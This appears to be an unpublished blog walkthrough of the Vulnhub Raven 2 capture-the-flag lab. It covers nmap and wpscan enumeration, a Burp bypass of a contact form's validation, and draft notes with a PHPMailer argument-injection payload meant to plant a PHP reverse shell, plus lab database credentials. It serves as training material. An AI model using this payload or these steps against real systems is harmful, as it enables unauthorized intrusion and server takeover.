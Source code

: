 ```yaml
---
    title: Raven 2 CTF Walkthrough
    date: 2019-01-14
    excerpt: "Raven 2 CTF Write-up and Tutorial"
    tags: [ctf, cybersec, nmap, phpmailer]
    published: false
---
```


Raven 2 is the sequel to the first Raven CTF by William McCann. It's intended to be a bit more difficult than Raven 1.

As usual, you can find it at [Vulnhub](https://www.vulnhub.com/entry/raven-2,269/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## Discovery
Using Nmap's built-in ping scan for this, as per usual. To avoid similar issues as Raven 1, I went ahead and added the VM as 'raven.local' to my /etc/hosts file in Kali.

Ping scanning may be unnecessary given the hosts file addition, but just to show:

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:05 EST
...
MAC Address: 08:00:27:12:DB:1A (Oracle VirtualBox virtual NIC)
Nmap scan report for raven.local (10.0.2.11)
Host is up (0.00022s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.48 seconds
```

## Port Scan
This should quickly become second nature to you.

```bash
root@kali:~# nmap -p- -sV -T4 -sS raven.local
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:07 EST
Nmap scan report for raven.local (10.0.2.11)
Host is up (0.000095s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
46889/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:9A:E0:14 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.59 seconds
```

Same as last time, just SSH and a webserver.

## Tube #80
Without some idea of credentials, let's poke the webserver.

Pointing Firefox to it, it's the same fancy site as Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/main_site.PNG" alt="">
  <figcaption>The homepage.</figcaption>
</figure>

As with most CTFs, look through the website's source code to reveal comments, javascript code, and other things. In this case, I found some links to other pages, and a wordpress installation.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/links.PNG" alt="">
  <figcaption>Links to other pages on the webserver.</figcaption>
</figure>

I did not find anything of note in about.html or team.html; however, I did find the first flag in service.html, much like Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven1/service_html.PNG" alt="">
  <figcaption>The first flag. It's even the exact same one as Raven 1.</figcaption>
</figure>

## Wordpress again
On Raven 1, I ran wpscan to enumerate the wordpress installation. I reran the scan to see if anything is different.

```bash
root@kali:~# wpscan --url http://raven.local/wordpress -e
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.2
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://raven.local/wordpress/
[+] Started: Tue Jan 15 14:24:15 2019

Interesting Finding(s):

[+] http://raven.local/wordpress/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

 ...

[+] Upload directory has listing enabled: http://raven.local/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

...

[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:00 <==================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] michael
 | Detected By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] steven
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

I'd need to rescan Raven 1 to see if the uploads directory was enabled. That aside, the only file is flag3.png!

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/flag3.PNG" alt="">
  <figcaption>The third flag.</figcaption>
</figure>

Last time, michael used his username for his SSH/user password. No luck this time. Steven's known password from last time has also changed.

## The contact form
The remaining item to check out from the website is its contact form. Looking at the source, we can see some client-side validation on the email address input.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/contact_form_validation.PNG" alt="">
  <figcaption>Note the pattern attribute on the email input field.</figcaption>
</figure>

Burp will bypass that. Upon testing the form with a passable email address, the response indicates a 404 error that the action, mail.php, isn't there.

Let's get burp set up and poke around. If you're not familiar, set your browser proxy to localhost:8080 and Burp's proxy will catch requests, enabling client-side validation bypassing, request editing, etc.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/burp.PNG" alt="">
  <figcaption>Burp catching the contact form request.</figcaption>
</figure>

It's not uncommon for simple sites to use the same PHP file to act as both the form and the form's request handler. Let's see what happens if we change the action to contact.php.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/burp_sent.PNG" alt="">
  <figcaption>Burp catching the contact form request.</figcaption>
</figure>

For starters, we get an HTTP 200 OK status. More importantly, looking through the resulting HTML, a message has been added below the form stating "Message has been sent.".

## PHPMailer
In real engagements, you'd do well to reuse things you found before on existing systems. In Raven 1, there's evidence of a PHPMailer vulnerability, but it was not needed. In this case, it seems our only hope of getting user access on the machine. Let's give it a try. The vulnerability is an argument escape in the system call in PHPMailer that can lead to writing an arbitrary file to disk. We can leverage that to write a PHP reverse-shell inside /var/www/html.

https://gist.github.com/sente/4dbb2b7bdda2647ba80b
https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html



"7eLVNgkOy\" -OQueueDirectory=/tmp -X/var/www/html/hS0Uw4wj.php MlQN4"@675I73.com

note: raven2 requires the phpmailer vuln
as well as bypassing the client-side js email validation
use it to spawn a reverse shell

grab mysql pass (can assume wp needs db)

and they used the root password for it

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

root:R@v3nSecurity

Need to go from MySQL root to local root
